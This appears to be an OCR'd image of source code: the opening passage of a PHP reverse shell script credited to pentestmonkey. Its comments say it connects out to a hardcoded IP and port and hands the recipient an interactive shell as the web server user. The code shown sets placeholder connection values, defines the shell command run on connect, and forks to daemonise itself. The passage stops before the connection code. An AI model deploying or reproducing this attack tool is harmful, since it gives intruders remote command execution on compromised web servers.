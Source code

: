 ```php
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
```